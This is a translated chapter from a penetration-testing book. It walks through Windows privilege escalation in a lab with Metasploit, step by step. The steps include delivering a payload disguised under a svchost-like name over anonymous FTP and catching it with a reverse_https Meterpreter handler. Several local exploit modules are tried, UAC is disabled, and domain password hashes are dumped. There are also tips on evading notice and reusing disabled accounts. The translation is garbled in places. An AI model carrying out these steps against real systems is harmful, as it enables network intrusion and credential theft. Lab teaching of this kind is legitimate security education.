# 八、Windows 权限提升和维护访问权限

在本章中，您将了解一旦利用系统，如何将权限提升到系统级访问权限。您还将学习如何从系统中获取信息，即使漏洞利用确实出错。没有任何彻底的失败；即使事情确实出了问题，也总有一些东西需要学习。您将学习如何将持久性添加到攻击中，以保持对受害者机器的未来访问。

在本章中，您将了解以下主题：

*   Windows 权限升级
*   MS16-032 辅助登录句柄权限提升
*   Windows 升级服务权限本地权限升级
*   维护访问权限

# 技术要求

在本章中，您需要一台目标 Windows 计算机和一个正在运行的 Kali 实例。

# Windows 权限升级

特权升级获得的访问级别高于所使用的帐户的访问级别。用黑客的术语来说，这被称为**根盒**。这来自 UNIX/Linux 世界，其中 root 是管理员帐户。使用此级别的访问权限，您将拥有该框。在 Windows 系统中，管理员帐户具有管理员级别的访问权限，可以对系统执行任何操作。不过，在 Windows 中，还有一个更高级别的访问，称为系统。使用此帐户，您可以完全控制系统的所有级别。这是我们想要的访问级别。

获得对用户帐户的访问权限要比在攻击中获得域管理员帐户容易得多。用户帐户比管理员帐户多得多，因此通过数字就能轻松地从网上（或无线）获取其中一个帐户。用户帐户通常是锁定的，因此您没有任何实际访问机器系统级别的权限。在这里，我们将绕过这个问题。一旦获得对机器的实际访问权，升级您的权利就很容易了，我们将看到这一点。

在本章中，我们有一个由两台服务器和两台工作站组成的网络，通过防火墙与 internet 连接。该网络还具有无线接入点。作为攻击者，我们已通过无线设备入侵网络，并使用 SMB 中毒攻击从网络获取用户帐户哈希。使用这些被盗的凭据，我们将访问网络上的工作站，并沿着网络阶梯向上爬，以访问域控制器。

# 提升您的权限

我们使用 Responder 工具运行了 SMB 中毒攻击，并捕获了两个帐户。一个是用户帐户`fflintstone`，我们很幸运，还为`Administrator`帐户捕获了一个 NTLMv2 哈希。正如我们在下面的屏幕截图中所看到的，通过运行攻击将 HTTP-NTLM 支持降至 basic，我们捕获了`fflintstone`的纯文本密码，因此我们可以使用加密密码。NTLMv2 哈希与 V1 哈希不同，因为 V2 哈希是使用从服务器到客户端的通信中给出的质询和响应进行加密的。因此，我们不能使用**传递散列**方法，仅使用散列代替实际密码登录，但如果散列是唯一捕获的东西，我们可以使用密码破解工具，如 John、Hashcat 或 Hydra，轻松破解此散列并获得实际密码。因为我们很幸运，获得了一个明文密码，所以我们将使用此密码。


一旦我们进入受害者的机器，我们将需要一个有效载荷连接回攻击机器。所以，让我们使用 MSFvenom 工具来构建一个快速有效负载，以便上传到受害者。

# MSFvenom

MSFvenom 是 Metasploit 框架附带的漏洞打包工具。MSFvenom 能够构建一切，从简单的漏洞攻击到包含代码的复杂漏洞攻击，以模糊用于绕过反病毒服务的漏洞攻击。在这里，我们将构建一个简单的漏洞来运行。通常，我会先构建并运行简单的漏洞攻击，如果反病毒出现问题，我会尝试构建一个漏洞来绕过反病毒。

MSFvenom 是一个非常强大的工具，我们可以从以下`help`文件中看到：

```
    MsfVenom - a Metasploit standalone payload generator.
    Also a replacement for msfpayload and msfencode.
    Usage: /usr/bin/msfvenom [options] <var=val>
    Options:
    -p, --payload  <payload> Payload to use. Specify a '-' or stdin to use custom payloads
    --payload-options   List the payload's standard options
    -l, --list   [type]  List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled  <length>  Prepend a nopsled of [length] size on to the payload
    -f, --format  <format>  Output format (use --help-formats for a list)
    --help-formats    List available formats
    -e, --encoder  <encoder> The encoder to use
    -a, --arch   <arch>  The architecture to use
    --platform  <platform> The platform of the payload
    --help-platforms    List available platforms
    -s, --space   <length>  The maximum size of the resulting payload
    --encoder-space <length>  The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars  <list>  The list of characters to avoid example: '\x00\xff'
    -i, --iterations <count>  The number of times to encode the payload
    -c, --add-code  <path>  Specify an additional win32 shellcode file to include
    -x, --template  <path>  Specify a custom executable file to use as a template
    -k, --keep      Preserve the template behavior and inject the payload as a new thread
    -o, --out   <path>  Save the payload
    -v, --var-name  <name>  Specify a custom variable name to use for certain output formats
    --smallest     Generate the smallest possible payload
    -h, --help      Show this message

```

通过运行`msfvenom --help-formats`命令，我们可以得到有效负载可以编译为的格式列表。

可执行文件格式如下：

`asp`、`aspx`、`aspx-exe`、`axis2`、`dll`、`elf`、`elf-so`、`exe`、`exe-only`、`exe-service`、`exe-small`、`hta-psh`、`jar`、`jsp`、`loop-vbs`、`macho`、`msi`、`msi-nouac`、`osx-app`、`psh`、`psh-cmd`、`psh-net`、`psh-reflection`、`vba`、`vba-exe`、`vba-psh`、`vbs`、`vbs`、`msi-nouac`、`msi-nouac`、`osx-app`、`osx-app`、`psh`、`psh-cmd`、`psh-net`、`psh-net`、`psh-reflection`、`psh-reflection`、`vba`、`vba`、`vba`、`vba-psh`、`vbs``war`。

转换格式如下所示：

`bash`、`c`、`csharp`、`dw`、`dword`、`hex`、`java`、`js_be`、`js_le`、`num`、`perl`、`pl`、`powershell`、`ps1`、`py`、`python`、`raw`、`rb`、`ruby`、`sh`、`vbapplication`、`vbscript`。


现在我们有了有效载荷，我们需要把它放上去，这样我们就可以从受害者的机器上下载它。所有 Windows 系统都配有内置 FTP 客户端，可以从命令行界面或使用 PowerShell 从运行。PowerShell 脚本还可用于使用 FTP 或 HTTP 服务获取文件。就个人而言，对于这种使用，我喜欢简单明了的 FTP 客户端。Metasploit 有一个内置的 FTP 服务器用于此目的。要从 MSFconsole 启动此服务，请从命令行运行以下命令：

*   `msfdb start`：这将启动 Metasploit 数据库
*   `mfsconsole`：这将启动控制台
*   `workspace <NameOfWorkspace>`：这将使您进入现有的工作区
*   `use auxiliary/server/ftp`：进入 FTP 服务器配置

通过运行`show options`命令，我们可以看到服务的选项如下：



我们看到`FTPROOT`选项被设置为`/tmp/ftproot`目录。对于一次性使用，您需要运行`mkdir /tmp/ftproot`命令，该命令将为服务设置目录，并允许您将漏洞复制到此目录。一次性使用可以，但当系统关闭时，`/tmp`目录被清空，因此目录和文件被删除。有时候，这是你想要的结果。我喜欢保留我的文件供以后使用，所以我通过运行`mkdir /var/ftproot`命令设置了以下目录。此目录将永久保留，任何文件或漏洞攻击都将在关机后保留。我们将保留`FTPUSER`和`FTPPASS`字段为空，并使用匿名连接获取文件，因为我们只会让此服务运行很短时间。如果您需要让服务运行一段时间，或者您在敌对网络上，设置这两个选项可能是明智的。我们需要设置以下选项。

我们的攻击机地址为`172.16.42.215`，如下图：

```
set SRVHOST 172.16.42.215
set FTPROOT /var/ftproot
```

我们需要将我们构建的漏洞复制到`ftproot`目录，如下所示：

```
    cp srvhosts.exe /var/ftproot/srvhosts.exe
```

然后我们需要使用`run`命令：


这将启动 FTP 服务。通过运行`jobs`命令，我们可以看到正在运行的服务。

现在，我们已经在 FTP 服务上设置了有效登录和有效负载，因此我们已经做好了攻击准备。在我们对系统的扫描中，我们看到 RDP 服务正在端口`3389`上运行，因此我们将使用**rdesktop**应用程序连接到系统，如下所示：

```
rdesktop 172.16.42.6  
```


单击“其他用户”按钮进入默认登录屏幕，并输入捕获的域凭据：


一旦我们进入，就打开命令行界面或 PowerShell 窗口，并按如下方式下载文件。攻击机位于`172.16.42.215`：

```
ftp 172.16.42.215 
```

它将请求一个用户；输入匿名并点击*输入*键。然后服务将要求输入密码。再次点击*输入*键，将字段留空。

这将在此设置上正常工作。运行`dir`命令，我们可以看到我们的漏洞；我们将通过运行以下命令将其下载到 Windows`temp`目录：

```
GET svchosts.exe C:\Windows\temp\svchosts.exe  
```



MSFconsole 还将报告文件下载，如下所示：


在运行攻击之前，我们需要在攻击机器上设置攻击处理程序。我们将设置 Metasploit multi/handler，以便利用该漏洞进行连接。处理程序的默认负载是`reverse_tcp`负载，并在端口`4444`上运行。

当我们构建我们的漏洞时，我们将其设置为使用`reverse_https`将我们的流量隐藏为 HTTPS 流量，因此我们必须更改默认值。从 MSFconsole 运行以下命令：

```
use exploit/multi/handler
set LHOST 172.16.42.215 //(the attacking machine)
set LPORT 443
set PAYLOAD windows/meterpreter/reverse_https (sets the handler payload)
show options //(this will let you check the settings)
run -j //(the -j option will run the handler as a job in the background)  
```



运行`jobs`命令，我们可以看到处理程序现在正在运行，FTP 服务也在运行。我们现在可以通过运行以下命令终止 FTP 服务：

```
jobs -k 1  
```


我们现在准备在受害者的机器上运行我们的漏洞攻击。从命令行窗口或 PowerShell 运行以下命令：

```
C:\Windows\temp\svchosts.exe
```

这将触发攻击并连接到攻击者机器上的处理程序：


在攻击者的系统上，在 Metasploit 中，我们可以看到攻击连接到处理程序。然后，通过运行`sessions -l`命令，我们可以看到正在运行的会话。接下来，通过运行`sessions -i 2`命令，我们可以在机器上启动一个 MeterMeter 外壳。然后，通过运行`sysinfo`命令，我们可以看到我们已连接到 BO-SRV2：


从我们的会话信息中，我们可以看到我们被连接为`LAB1\rred`。从前面的示意图中，我们知道这是一个没有管理员权限的域用户帐户，因此我们需要提升帐户权限以获得我们的商品。让我们运行`getsystem`命令。此命令使用 15 个内置方法获得系统管理员权限。

下面的屏幕截图显示它无法访问系统。哎呀！请查看以下输出：


我们可以通过运行`getuid`命令来检查此故障，然后该命令通过显示我们仍然作为`LAB1\rred`连接来响应。

渗透测试中的持久性不仅仅意味着拥有一个持续运行的漏洞。有时，为了提升您的权限，它需要对系统进行多次后期攻击。一些漏洞利用会在某些系统上起作用，然后在其他时候，它们就不起作用了。坚持是关键。在开发这个系统的过程中，作者不得不通过大量的`post/windows`和`exploit/windows/local`模块来最终提升他的用户权限。显示的`post`工具和漏洞攻击在此攻击中失败，但可能在另一个系统上成功。一旦你有了一个 MeterMeter 外壳，你会想退出外壳，但仍然要通过输入背景并点击*回车*键来保持连接。

您可以通过运行以下命令找到`post/windows`和`exploit/windows/local`。结果将在模块上显示日期。您将希望使用比目标系统的使用年限早的模块。在运行 Server 2008 的系统上运行 Windows 2000 漏洞攻击没有多大用处。该漏洞很长时间以来都会通过版本更新进行修补。

*   `search post/windows`：这将找到 post 模块
*   `search exploit/windows/local`：这将发现可在活动会话上运行的漏洞

# MS16-032 辅助登录句柄权限提升

接下来，我们将运行 MS16-032 辅助登录句柄权限提升模块。该模块的信息说明如下：

```
    msf > info exploit/windows/local/ms16_032_secondary_logon_handle_privesc
    Name: MS16-032 Secondary Logon Handle Privilege Escalation
    Module: exploit/windows/local/ms16_032_secondary_logon_handle_privesc
    Platform: Windows
    Privileged: No
    License: BSD License
    Rank: Normal
    Disclosed: 2016-03-21

    Provided by:
    James Forshaw
    b33f
    khr0x40sh

    Available targets:
    Id Name
    -- ----
    0 Windows x86
    1 Windows x64

    Basic options:
    Name  Current Setting Required Description
    ----  --------------- -------- -----------
    SESSION     yes  The session to run this module on.

    Payload information:

    Description:
    This module exploits the lack of sanitization of standard handles in 
    Windows' Secondary Logon Service. The vulnerability is known to 
    affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This 
    module will only work against those versions of Windows with 
    Powershell 2.0 or later and systems with two or more CPU cores.

```

有关 MS（MS16-032）的更多信息，请参阅以下参考资料：

*   [https://cvedetails.com/cve/CVE-2016-0099/](https://cvedetails.com/cve/CVE-2016-0099/)
*   [https://twitter.com/FuzzySec/status/723254004042612736](https://twitter.com/FuzzySec/status/723254004042612736)
*   [https://googleprojectzero.blogspot.co.uk/2016/03/exploiting-leaked-thread-handle.html](https://googleprojectzero.blogspot.co.uk/2016/03/exploiting-leaked-thread-handle.html)

此漏洞的作用是使用任意令牌创建新进程。这会欺骗服务使用特权访问令牌，从而绕过安全限制。

要使用此模块，请运行以下命令：

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc  
```


通过运行`show options`命令，我们可以看到只有`SESSION`选项必须设置。通过运行`sessions -l`命令，我们可以看到我们正在运行的会话是`2`。要设置此选项，请运行以下命令：

```
set SESSION 2  
```

然后跑去发动攻击。我们看到漏洞攻击失败了。攻击已运行，但未能完全执行。阅读有关此漏洞利用的信息，我们发现您必须有两个或多个内核才能使用此漏洞利用。从系统封装期间收集的其他信息来看，我们可以假设该系统是一个运行在单个内核上的 VM。失败仍然可以提供有关目标的更多信息。

# Windows 升级服务权限本地权限升级

我们将运行的下一个模块是 Windows 升级服务权限本地权限升级模块，日期为 2012 年。这是一个本地攻击，通过正在运行的会话运行。同样，我们将使用会话 2。

要使用此模块，请运行以下命令：

```
use exploit/windows/local/service_permissions  
```

该模块的描述如下：

```
    msf > info exploit/windows/local/service_permissions

    Name: Windows Escalate Service Permissions Local Privilege Escalation
    Module: exploit/windows/local/service_permissions
    Platform: Windows
    Privileged: No
    License: Metasploit Framework License (BSD)
    Rank: Great
    Disclosed: 2012-10-15

    Provided by:
    scriptjunkie

    Available targets:
    Id Name
    -- ----
    0 Automatic

    Basic options:
    Name  Current Setting Required Description
    ----  --------------- -------- -----------
    AGGRESSIVE false   no  Exploit as many services as possible (dangerous)
    SESSION      yes  The session to run this module on.

    Payload information:

    Description:
    This module attempts to exploit existing administrative privileges 
    to obtain a SYSTEM session. If directly creating a service fails, 
    this module will inspect existing services to look for insecure file 
    or configuration permissions that may be hijacked. It will then 
    attempt to restart the replaced service to run the payload. This 
    will result in a new session when this succeeds.

```

正如我们在下面的输出中所看到的，漏洞再次被利用，但仍然没有任何乐趣。这可能是一个失败，但从输出来看，我们现在知道没有任何服务使用弱配置运行。通过会话超时，我们现在知道，任何试图使用此方法欺骗服务的方法都是失败的：



# Windows 升级 UAC 保护旁路（脚本主机漏洞）

此模块试图利用`cscript/wscript.exe`可执行文件，使用 VB 脚本语言绕过 Windows 上的 UAC：

```
    msf > info exploit/windows/local/bypassuac_vbs 

    Name: Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability)
    Module: exploit/windows/local/bypassuac_vbs
    Platform: Windows
    Privileged: No
    License: Metasploit Framework License (BSD)
    Rank: Excellent
    Disclosed: 2015-08-22

    Provided by:
    Vozzie
    Ben Campbell <eat_meatballs@hotmail.co.uk>

    Available targets:
    Id Name
    -- ----
    0 Automatic

    Basic options:
    Name  Current Setting Required Description
    ----  --------------- -------- -----------
    SESSION     yes  The session to run this module on.

    Payload information:

    Description:
    This module will bypass Windows UAC by utilizing the missing 
    .manifest on the script host cscript/wscript.exe binaries.

```

运行该模块后，我们可以在下面的屏幕截图中看到，我们试图破坏的用户帐户需要具有管理员权限。好吧，另一个失败，但我们再次了解到，我们使用的帐户在域中没有很多权限。我们确实获得了另一个帐户的凭据；也许该帐户有更多权限：


通过运行`creds`命令，我们将获得一个捕获凭证的列表。请注意，有不可重放的散列，除了离线破解外，这些没有多大用处，但我们确实有另一个帐户（`fflintstone`），它是用纯文本密码捕获的。我们将使用前面的漏洞尝试此漏洞：


现在，为了让它运行，multi/handler 必须更改用户帐户，因此我们需要终止会话 2，然后将 RDP 作为`fflintstone`加入，并重新运行漏洞攻击以获得该用户的权限。我们需要回到 multi/handler 模块。

*   `use exploit/multi/handler`：这会让你回到处理程序中
*   `sessions -k 2`：这将终止正在运行的会话 2
*   `run -j`：这将重新启动 multi/handler 以接受新连接，并在后台将其作为作业运行


现在，在使用`fflintstone`帐户登录 RDP 会话后，我们将从命令行或 PowerShell 再次运行有效负载。

```
C:\Windows\Temp\svchosts.exe  
```


在下面的屏幕截图中，我们可以看到 Kali 盒上的处理程序已接受连接并在会话 3 上设置了 MeterMeter 会话：


现在，让我们回到绕过 UAC 漏洞并在新会话中运行它。要执行此操作，请运行以下命令：

*   `back`：这将退出处理程序，而不会终止它或任何会话
*   `use exploit/windows/local/bypassuac_vbs`：这将使您回到模块中
*   `set session 3`：这将漏洞利用设置为使用会话 3
*   `exploit`：这会把它点燃

在下面的屏幕截图中，我们可以看到我们仍然失败。UAC 设置似乎具有更高的安全设置，无法利用。同样，持久性是关键：



所以，BO-SRV2 似乎已经被我们目前拥有的帐户锁定了，所以让我们去找另一台机器吧。我们还没有尝试域控制器，所以让我们继续。我们使用 RDP 以`LAB1\fflintstone`身份登录，并以与我们在 BO-SRV2 上相同的方式将我们的漏洞转移到域控制器。在下面的屏幕截图中，我们切换到要将漏洞转储到的`C:\Windows\Temp`目录，然后连接回我们的 Kali 机器并下载漏洞，如下所示：


同样，我们已经准备好运行漏洞攻击并连接回我们的 Kali 盒。请确保已设置并运行您的 multi/handler！现在，运行可执行文件。

`svchosts.exe`：这将启动漏洞攻击，您将看到会话在 Kali 上打开。


我们返回到 VBS 绕过漏洞攻击，并在此会话中运行它。哦，不！我们还有另一个失败，就像 BO-SRV2 上的最后一个一样：



现在，似乎所有用户帐户上的所有服务器的安全性都设置为高。我们需要把这个讨厌的 UAC 弄走。这也很可能是我们其他尝试失败的原因。当漏洞攻击自动运行时，它们会被 UAC 阻止。我们需要禁用 UAC 并将其清除。由于我们有一个 RDP 会话和一个对机器具有某些权限的帐户，我们将使用 GUI 禁用 UAC，如下所示：

1.  转到控制面板。
2.  选择用户帐户。
3.  单击打开或关闭用户帐户控制。
4.  点击 UAC 窗口。
5.  接下来，取消选中该复选框。
6.  按 OK。
7.  然后会要求您重新启动计算机；着手

8.  以下屏幕截图显示了 UAC 窗口：



你可能想知道为什么我们没有在 BO-SRV2 上这样做。封装外形向我们展示了 BO-SRV2 是网络上的一个文件服务器。重新启动此系统可能会提醒用户我们的存在。网络可能只有一个文件服务器，所以如果它重新启动就会引起注意，但域控制器则是另一回事。我们可以重新启动这个系统，没有人会更聪明，除非网络上有一个网络监控服务可以告诉我们。至少，在重新启动域控制器时，被抓到的机会更小。哦，是的；在重新启动机器之前，右键单击任务栏，转到任务管理器并检查用户选项卡，以确保您是该框中唯一的用户。在管理员处于开机状态时重新启动将意味着您已关机。我们可以在以下屏幕截图中看到，我们是目前系统上唯一的一个，因此可以安全地重新启动：


现在，重新启动后，我们重新开始这个过程。请确保您的 multi/handler 设置正确，并在您的 Kali 机器上运行。重新登录受害者的机器并重新运行有效负载：

```
C:\Windows\Temp\svchosts.exe  
```

然后，您将在 Kali 框上看到 MeterMeter 会话开始，如下所示：


好吧，让我们看看这次我们得到了什么！打开我们的 MeterMeter 会话，看看会发生什么。要打开会话，请执行以下操作：

*   `sessions -i 2`：`-i`与编号的会话交互
*   `getuid`：这表明我们是以`fflintstone`的身份运行的

这只是为了好玩，因为上次我们运行它时它不起作用。

*   `getsystem`：答对了！我们赢了！当我们重新运行`getuid`时，我们看到我们现在是系统。是的，站起来跳你的快乐舞蹈：你现在有了系统级的特权！这是完全正确的：


因此，我们发现问题一直是 UAC，我们没有能力绕过通常出现在屏幕上的提示。即使使用管理员级别的访问，UAC 提示符也阻止了我们完全破坏机器的尝试。

所以，让我们洗劫这个系统，收集我们的战利品。作为域控制器，它持有王国的钥匙。在渗透测试中，一旦被洗劫一空，游戏就结束了。在现实世界中，一旦完成，你的网络就完蛋了；如果不完全重建整个网络结构，您将永远无法绝对确保攻击者被完全锁定。为此，我们将使用`post`模块收集所有用户帐户及其哈希。为此，我们将使用`post/windows/gather/smart_hashdump`模块。

本模块的信息如下：

```
    msf post(smart_hashdump) > info

    Name: Windows Gather Local and Domain Controller Account Password Hashes
    Module: post/windows/gather/smart_hashdump
    Platform: Windows
    Arch: 
    Rank: Normal

    Provided by:
    Carlos Perez <carlos_perez@darkoperator.com>

    Basic options:
    Name  Current Setting Required Description
    ----  --------------- -------- -----------
    GETSYSTEM false   no  Attempt to get SYSTEM privilege on the target host.
    SESSION      yes  The session to run this module on.

    Description:
    This will dump local accounts from the SAM Database. If the target 
    host is a Domain Controller, it will dump the Domain Account 
    Database using the proper technique depending on privilege level, OS 
    and role of the host.

```

在设置和运行此模块之前，首先我们希望在不中断连接的情况下脱离 MeterMeter 外壳，然后加载 post 模块并运行它。

在运行的 MetetMeter 外壳中，运行以下命令：

*   `background`：这将对会话进行后台处理，而不是终止会话。
*   `use post/windows/gather/smart_hashdump`：这将加载`smart_hashdump`模块。
*   `show options`：显示所需的选项。
*   `set SESSION 2`：设置会话以使用我们正在运行的会话。
*   `show options`：再次运行此操作以检查您的设置。
*   `exploit`：利用！！


答对 了您现在是`LAB1.boweaver.net`域名的骄傲所有者。请注意，域中的所有哈希，包括计算机帐户，都已被洗劫一空。与使用 NTLMv2 在线路上捕获的散列不同，这些散列不是盐渍的，因为 NTLMv2 是盐渍的，不可重放。这些是直接的 NTLM 散列，可用于**将散列**式攻击和登录传递给其他系统。他们也可以更容易地破解使用离线密码破解工具，以获得纯文本密码。

此外，请注意，不仅已将 Cred 保存到 Metasploit 数据库中，还将其输出到位于`/root/.msf4/loot/20170709202230_lab1.boweaver.ne_172.16.42.5_windows.hashes_075027.txt`的文件中。此文本文件的格式可以导入 John 或 Hashcat 进行脱机破解。

下面的屏幕截图显示了本书测试域的结果，因此输出没有那么大。在大型域中，这可能是一个非常大的转储：



黑客提示：
在转储大型域时，有时可以找到禁用的帐户。最好启用其中一个帐户进行攻击，并提升此帐户的权限，而不是添加新帐户进行攻击。

# 维护访问权限

